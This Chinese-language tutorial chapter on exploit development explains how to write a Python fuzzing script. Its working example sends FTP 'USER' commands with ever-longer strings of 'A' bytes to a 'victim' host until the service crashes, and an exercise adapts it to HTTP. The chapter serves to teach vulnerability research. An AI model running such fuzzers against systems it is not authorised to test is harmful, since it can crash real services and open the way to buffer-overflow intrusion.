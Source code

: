 ##编写Fuzz测试脚本

 这一章将会演示教你如何写一个属于自己的Fuzz测试脚本，当我们进行exploit研究和开发的时候就可以使用脚本语言发送大量的测试数据给受害者机器，但是这个错误数据很容易引发应用程序崩溃掉。而Python却不同，当程序崩溃之后，此时你的程序会暂时断开连接，随后会立即创建一个新的连接继续执行。
 
 下面我们首先要解决的问题是应用程序如何处理用户输入的内容，因为在进行模糊测试的时候，我们会不定时的想到一些新的思路然后把数据发送给受害者机器上面来测试，这基本思路就是先与服务器建立连接,然后发送测试数据给服务器，通过while循环语句来判断是否成功，即使出现错误也会处理掉:
 
 下面是我们的一个扫描器的伪代码:
 
 ```
 #导入socket,sys模块，如果是web服务那么还需要导入httplib,urllib等模块
 <import modules> 

#设置ip/端口
#调用脚本: ./script.py <RHOST> <RPORT>
RHOST = sys.argv[1]
RPORT = sys.argv[2]
 
#定义你的测试数据,并且设置测试数据范围值
buffer = '\x41'*50
 
#使用循环来连接服务并且发送测试数据
while True:
  try:
    # 发送测试数据
    # 直到递增到50
    buffer = buffer + '\x41'*50
  except:
    print "Buffer Length: "+len(buffer)
    print "Can't connect to service...check debugger for potential crash"
```

上面这个脚本框架能够适用于各种服务，你可以根据你的服务(https,http,mysql,sshd)编写特定模糊测试脚本.下面我们演示一个基于"USER"命令的ftp服务器模糊测试脚本:

```
#导入你将要使用的模块，这样你就不用去自己实现那些功能函数了
import sys, socket
from time import sleep
 
#声明第一个变量target用来接收从命令端输入的第一个值
target = sys.argv[1]
#创建50个A的字符串 '\x41'
buff = '\x41'*50
 
# 使用循环来递增至声明buff变量的长度50
while True:
  #使用"try - except"处理错误与动作
  try:
    # 连接这目标主机的ftp端口 21
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.settimeout(2)
    s.connect((target,21))
    s.recv(1024)
 
    print "Sending buffer with length: "+str(len(buff))
    #发送字符串:USER并且带有测试的用户名
    s.send("USER "+buff+"\r\n")
    s.close()
    sleep(1)
    #使用循环来递增直至长度为50
    buff = buff + '\x41'*50
 
  except: # 如果连接服务器失败，我们就打印出下面的结果
    print "[+] Crash occured with buffer length: "+str(len(buff)-50)
    sys.exit()
```

上面这段代码演示了一个基本的Fuzz测试脚本，但是值得注意的是执行上面的代码，提交'\x41'字符可能不会让你成功的拿下受害主机，但是你可以尝试组合一些其他的字符(用户词典).此外还有一个更加强大的Fuzz测试工具[Spike](https://www.blackhat.com/presentations/bh-usa-02/bh-us-02-aitel-spike.ppt)和[具体介绍与演示](http://resources.infosecinstitute.com/intro-to-fuzzing/),它可以一次性的测试大量数据，并且能让你提高成功概率.

**练习**
大家可以把上面的ftp测试换成http测试，这里提示:你可能需要使用httplib/urllib.
